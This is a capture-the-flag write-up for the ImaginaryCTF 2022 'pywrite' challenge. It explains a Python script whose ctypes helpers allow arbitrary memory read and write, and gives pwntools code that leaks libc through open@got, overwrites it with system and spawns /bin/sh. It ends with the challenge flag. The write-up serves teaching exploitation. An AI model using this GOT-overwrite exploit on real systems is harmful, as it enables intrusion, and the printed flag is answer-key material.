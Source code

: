 # ImaginaryCTF 2022 - pywrite

Original challenge link: https://2022.imaginaryctf.org/Challenges

You can also download challenge files in my repo: [pywrite.zip](pywrite.zip)

There will be several files in zip:
- docker-compose.yml
- Dockerfile
- files/
- files/ld-2.31.so
- files/libc.so.6
- files/python3
- files/run.sh
- files/vuln.py
- xinetd

The original challenge doesn't have docker, just has 5 files in files folder. Because I run on parror, cannot run that python3, so I create a docker image with gdb-gef install to debug.

To build and run docker, type `docker-compose up --build`:

![build-docker.png](images/build-docker.png)

After it's done, type `docker ps` to get the container id:

![docker-ps.png](images/docker-ps.png)

Then type `docker exec -it <container-id-here> bash` to access to the container:

![docker-exec.png](images/docker-exec.png)

And now we can get started!

# 1. Find bug

Let's start by checking all the defences of `python3`:

![checksec.png](images/checksec.png)

So this is a 64-bit file with `No PIE` and `Partial RELRO`. We are also provided with a source file `vuln.py`. Open the file and we know there are 3 option:

```python
from ctypes import c_ulong

def read(where):
  return c_ulong.from_address(where).value

def write(what, where):
  c_ulong.from_address(where).value = what

menu = '''|| PYWRITE ||
1: read
2: write
> '''

while True:
  choice = int(input(menu))
  
  if choice == 1:
    where = int(input("where? ")) 
    print(read(where))
  if choice == 2:
    what = int(input("what? "))
    where = int(input("where? "))
    write(what, where)
  if choice == 3:
    what = input("what????? ")
    a = open(what)
    print(a)
```

The first option let us **read** data from an address. The second one let us **write** data to an address and the last option will **open** a file for us (just open, not read data of file so when it `print(a)` is just print the module of python, not data of file).

So that means we have arbitrary read and write. Let's move on!

# 2. Idea

We have arbitrary read and write, and the @got of python3 is `Partial RELRO` with `No PIE`, the idea is straight forward. We will first leak libc address of any @got and then overwrite @got with system and we can get shell.

Summary:
- Stage 1: Leak libc address
- Stage 2: Overwrite @got with system

# 3. Exploit

### Stage 1: Leak libc address

First, open 1 terminal and access to container, then run the file `run.sh` and let it there. Next, open another terminal and access to container too. Then type `ps aux` to get all process inside a container as following:

![ps-aux.png](images/ps-aux.png)

Then just type `gdb -p 17` and we can attach gdb to the running process. Now we need to find the address of binary `python3`. Type `vmmap`:

![vmmap.png](images/vmmap.png)

We can see the rw section is from `0x8f6000` to `0x93d000`. If we find manually, that might be time-consuming. Let's first get the libc address of read, write and open:

![find-addresses.png](images/find-addresses.png)

And now, we can use `search-pattern` in gdb-gef to search if those 3 address are in @got or not. This is result for `read`:

![search-pattern-read.png](images/search-pattern-read.png)

The result for write doesn't show any address of `python3` so we just ignore it, and this is the result for `open`:

![search-pattern-open.png](images/search-pattern-open.png)

There is an address which contain libc open. Let's make a test by setting all these value to an invalid value and continue executing script to see what function we should overwrite. I will change `read@got` into `0x4141414141414141` and `open@got` into `0x4343434343434343` and let's see:

![set-gdb.png](images/set-gdb.png)

Now type `c` and try all 3 option and if any option has no respond, switch to gdb to see what is happening. Option 1 seems no error:

![option-1.png](images/option-1.png)

Option 2 works fine too:

![option-2.png](images/option-2.png)

But we get no respond for option 3:

![option-3.png](images/option-3.png)

Switch to gdb and we can see it's going to jump to a function inside `0x8f6798`:

![gdb-jmp.png](images/gdb-jmp.png)

Check that address and we can see that's the address of `open@got`:

![check-open.png](images/check-open.png)

So we can leak address of open and overwrite `open@got` with system. The code for leaking address is:

```python
open_got = 0x8f6798
p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'where? ', str(open_got).encode())

open_addr = int(p.recvline()[:-1])
libc.address = open_addr - libc.sym['open']
log.info(hex(libc.address))
```

Let's move on!

### Stage 2: Overwrite @got with system

Overwriting is simple:

```python
p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'what? ', str(libc.sym['system']).encode())
p.sendlineafter(b'where? ', str(open_got).encode())
```

Also by analyzing when it segfault above, the register rdi contain our input:

![check-register.png](images/check-register.png)

So the file name when we choose option 3 would be `/bin/sh` and we can get shell:

```python
p.sendlineafter(b'> ', b'3')
p.sendlineafter(b'what?????', b'/bin/sh;')
```

Full script: [solve.py](solve.py)

# 4. Get flag

![get-flag.png](images/get-flag.png)

Flag is `ictf{sn3aky_snAk3s_1b99a1f0}`